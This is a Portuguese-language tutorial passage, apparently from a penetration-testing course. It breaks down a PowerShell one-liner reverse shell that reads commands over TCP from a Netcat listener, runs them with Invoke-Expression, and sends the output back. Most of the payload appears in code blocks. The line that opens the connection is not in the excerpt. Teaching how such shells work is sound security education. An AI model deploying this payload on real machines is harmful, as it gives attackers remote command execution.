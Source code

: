 #### Parâmetros de fluxo
```cmd-session
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
```
Inicia um loop while contendo a variável `$i` definida como igual a (`=`) o método Stream.Read (``$stream.Read``) do .NET framework. Os parâmetros: buffer (``$bytes``), offset (``0``) e count (``$bytes.Length``) são definidos dentro dos parênteses do método.

#### Set The Byte Encoding
```cmd-session
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
```
Define/avalia a variável `$data`igual a ( `=`) uma classe de framework .NET de codificação [ASCII](https://en.wikipedia.org/wiki/ASCII) que será usada em conjunto com o `GetString`método para codificar o fluxo de bytes ( `$bytes`) em ASCII. Em resumo, o que digitamos não será apenas transmitido e recebido como bits vazios, mas será codificado como texto ASCII. O ponto e vírgula ( `;`) garante que os comandos e o código sejam executados sequencialmente.

#### Invocar-Expressão
```cmd-session
$sendback = (iex $data 2>&1 | Out-String ); 
```
Define/avalia a variável `$sendback` igual a ( `=`) o cmdlet Invoke-Expression ( `iex`) contra a variável `$data`, então redireciona o erro padrão ( `2>`) `&` saída padrão ( `1`) através de um pipe ( `|`) para o `Out-String` cmdlet que converte objetos de entrada em strings. Como Invoke-Expression é usado, tudo armazenado em $data será executado no computador local. O ponto e vírgula ( `;`) garante que os comandos e o código sejam executados sequencialmente.

#### Mostrar diretório de trabalho
```cmd-session
$sendback2 = $sendback + 'PS ' + (pwd).path + '> '; 
```
Define/avalia a variável `$sendback2` igual a ( `=`) a variável `$sendback` mais ( `+`) a string PS ( `'PS'`) mais `+` o caminho para o diretório de trabalho ( `(pwd).path`) mais ( `+`) a string `'> '`. Isso resultará no prompt do shell sendo PS C:\workingdirectoryofmachine >. O ponto e vírgula ( `;`) garante que os comandos e o código sejam executados sequencialmente. Lembre-se de que o operador + na programação combina strings quando valores numéricos não estão em uso, com exceção de certas linguagens como C e C++, onde uma função seria necessária.

#### Define Sendbyte
```cmd-session
$sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```
Define/avalia a variável `$sendbyte` igual a ( `=`) o fluxo de bytes codificado em ASCII que usará um cliente TCP para iniciar uma sessão do PowerShell com um ouvinte Netcat em execução na caixa de ataque.

#### Encerrar conexão TCP
```cmd-session
$client.Close()"
```
Este é o método [TcpClient.Close](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.close?view=net-5.0) que será usado quando a conexão for encerrada.
